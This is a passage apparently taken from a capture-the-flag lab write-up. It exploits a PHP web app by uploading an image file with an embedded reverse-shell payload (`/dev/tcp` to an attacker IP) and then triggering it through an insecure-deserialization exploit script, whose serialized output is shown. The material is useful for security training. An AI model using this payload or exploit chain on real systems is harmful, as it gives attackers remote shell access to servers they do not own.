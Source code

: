 To exploit the scenario, we use both vulnerabilities:
* Initially, we will upload a PHP binary: We send a file with a malicious payload via `upload.php`, such as `profile.png`, which contains PHP code to execute a reverse shell.
```bash
┌─[✗]─[ribeirin@parrot]─[~/Documents/machines/hackingclub/maldev]
└──╼ $echo "<?php system("/bin/bash -c 'sh -i >& /dev/tcp/10.0.10.235/4444 0>&1'"); ?>" >> img.png
```
![request upload](../images/maldev/img_upload_1.png)

* Using insecure deserialization, we created an exploit that sets the `$this->page` property in the `Page` class to point to the previously uploaded malicious file..
```php
<?php
class Page {
    public $page;

    public function __construct($path) {
        $this->page = $path;
    }
}

$profilePath = "assets/images/profile.png"; 
$obj = new Page($profilePath);

$payload = base64_encode(serialize($obj));
echo "Payload: " . $payload;
?>
```
```bash
┌─[ribeirin@parrot]─[~/Documents/machines/hackingclub/maldev]
└──╼ $php expl.php 
Payload: Tzo0OiJQYWdlIjoxOntzOjQ6InBhZ2UiO3M6MjU6ImFzc2V0cy9pbWFnZXMvcHJvZmlsZS5wbmciO30=
```

From there, we started the `nc` and sent the POST request to `/index.php` with the page parameter.